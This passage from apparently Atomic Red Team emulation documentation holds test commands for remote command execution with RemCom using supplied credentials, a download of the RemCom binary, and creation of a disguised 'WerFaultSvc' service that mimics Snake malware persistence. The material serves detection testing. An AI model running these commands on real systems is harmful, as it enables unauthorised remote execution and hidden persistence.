 
#### Attack Commands: Run with `command_prompt`! 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\remcom.exe" \\#{remote_host} /user:#{user_name} /pwd:#{password} cmd.exe
```




#### Dependencies:  Run with `powershell`!
##### Description: RemCom tool must exist on disk in the ExternalPayloads folder
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\remcom.exe") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/kavika13/RemCom/raw/master/bin/Release/RemCom.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\remcom.exe"
```




<br/>
<br/>

## Atomic Test #6 - Snake Malware Service Create
The following Atomic Test will create a new service named WerFaultSvc with a binary path of WinSxS\x86_microsoft-windows-errorreportingfaults_31bf3856ad364e35_4.0.9600.16384_none_a13f7e283339a050\WerFault.exe.
This was recently seen in the Snake Malware report. 
Upon execution, sc.exe will create a new service named WerFaultSvc with a bin path \WinSxS\x86_microsoft-windows-errorreportingfaults_31bf3856ad364e35_4.0.9600.16384_none_a13f7e283339a050\WerFault.exe and a display name of WerFault Service.
[Snake Malware - CISA](https://media.defense.gov/2023/May/09/2003218554/-1/-1/0/JOINT_CSA_HUNTING_RU_INTEL_SNAKE_MALWARE_20230509.PDF)

**Supported Platforms:** Windows


**auto_generated_guid:** b8db787e-dbea-493c-96cb-9272296ddc49






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create "WerFaultSvc" binPath= "$env:windir\WinSxS\x86_microsoft-windows-errorreportingfaults_31bf3856ad364e35_4.0.9600.16384_none_a13f7e283339a050\WerFault.exe" DisplayName= "WerFault Service" start= auto
```
